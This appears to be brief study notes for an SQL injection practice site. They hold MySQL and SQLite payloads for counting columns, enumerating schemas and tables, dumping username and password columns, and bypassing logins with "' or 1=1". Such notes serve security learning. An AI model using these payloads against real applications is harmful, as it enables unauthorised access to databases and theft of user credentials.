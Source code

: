 tests site from: https://cylab.be/resources/cylab-play

to know columns count:

```
 ' order by 1 #
 ' order by 2 #
 ' order by 3 #
 ' order by 4 # // this one error out, so there is 3 columns
```

mysql injection:
https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

```
 ' union select null,null,version() #
 ' union select null,null,user() #
 ' union select null,null,database() #
 ' union select null,username,password from users #
 ' union select null,table_schema,table_name FROM information_schema.tables #
 ' union select null,table_name,column_name FROM information_schema.columns #

' or 1=1
```

sqlite injection:
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

```
 ' union select null,null,sqlite_version() --
 ' union select null,username,password from users --
 ' union select name from sqlite_schema --

'; SELECT sql FROM sqlite_schema --
' or 1=1
```
